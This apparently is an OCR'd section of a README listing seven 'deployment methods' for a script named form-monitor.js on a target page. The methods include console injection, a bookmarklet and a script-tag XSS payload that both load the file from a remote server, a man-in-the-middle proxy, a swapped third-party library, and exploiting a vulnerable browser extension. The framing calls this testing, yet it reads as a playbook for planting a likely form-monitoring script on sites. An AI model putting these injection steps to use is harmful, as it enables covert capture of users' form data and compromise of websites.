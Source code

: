 ## Deployment Methods



### Method 1: Direct Injection

```javascript
// Copy the entire script and inject it into the target page via browser console
// or through a browser extension that can inject scripts
```

### Method 2: Bookmarklet

```javascript
// Create a bookmark with this JavaScript
javascript:(function(){
  var script = document.createElement('script');
  script.src = 'https://your-server.com/form-monitor.js';
  document.head.appendChild(script);
})();
```

### Method 3: Browser Extension

```javascript
// Create a browser extension that injects the script into target pages
// This allows for more persistent testing across multiple sessions
```

### Method 4: XSS Payload

```javascript
// For testing XSS protections, use this as a payload
<script src="https://your-server.com/form-monitor.js"></script>
```

### Method 5: Man-in-the-Middle Proxy

```javascript
// Use a proxy tool to inject the script into responses
// This simulates a compromised CDN or third-party script
```

### Method 6: Compromised Third-Party Library

```javascript
// Replace a legitimate third-party library with a modified version
// that includes the monitoring code
```

### Method 7: Browser Extension Exploit

```javascript
// Exploit a vulnerable browser extension to inject the script
// This tests extension security mechanisms
```

